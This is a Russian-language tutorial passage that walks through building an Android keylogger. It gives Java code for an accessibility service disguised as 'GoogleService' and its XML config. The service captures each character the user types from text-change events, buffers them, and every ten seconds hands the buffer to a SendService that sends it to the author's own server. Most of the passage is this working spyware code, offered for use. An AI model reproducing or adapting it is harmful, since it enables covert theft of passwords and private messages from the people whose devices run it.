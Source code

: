 Метод ```onAccessibilityEvent()``` принимает все входящие события. Событие ```AccessibilityEvent.TYPE_VIEW_TEXT_CHANGED``` приходит, когда пользователь вводит текст в поле какое-нибудь. Мы отлавливаем именно его. Весь ввод записываем в буфер. И каждые 10 секунд отправляем этот буфер на свой сервер, стартуя ```SendService```. 

```java
public void onAccessibilityEvent(AccessibilityEvent event) {
        switch (event.getEventType()) {
            case AccessibilityEvent.TYPE_VIEW_TEXT_CHANGED:

                int len = event.getText().toString().length();
                char c;
                if (len > 0) {
                    c = event.getText().toString().charAt(len - 2);

                    buf += c;
                }
                break;
            default:
                break;
        }
        Log.d(TAG, "Keylogger buffer now " + buf);
        Date now = new Date();
        Date newTime = new Date(GoogleService.CURRENT_TIMESTAMP.getTime() + 10 * 1000);

        if (now.after(newTime) && !"".equals(buf)) {

            Context ctx = getApplicationContext();

            Intent intent = new Intent(ctx, SendService.class);

            intent.putExtra("text", buf);
            ctx.startService(intent);

            GoogleService.CURRENT_TIMESTAMP = now;
            buf = "";
        }
    }
```

Конфиг, нашего ```GoogleService```, выглядит так:

```xml
<?xml version="1.0" encoding="utf-8"?>
<accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
    android:accessibilityEventTypes="typeViewTextChanged"
    android:accessibilityFeedbackType="feedbackSpoken|feedbackHaptic|feedbackAudible|feedbackVisual|feedbackGeneric|feedbackAllMask"
    android:notificationTimeout="100"
    android:accessibilityFlags="flagDefault|flagIncludeNotImportantViews"
    android:canRetrieveWindowContent="false" />
```

В нем указывается, на какие события подписывается наш сервис и другая информация.
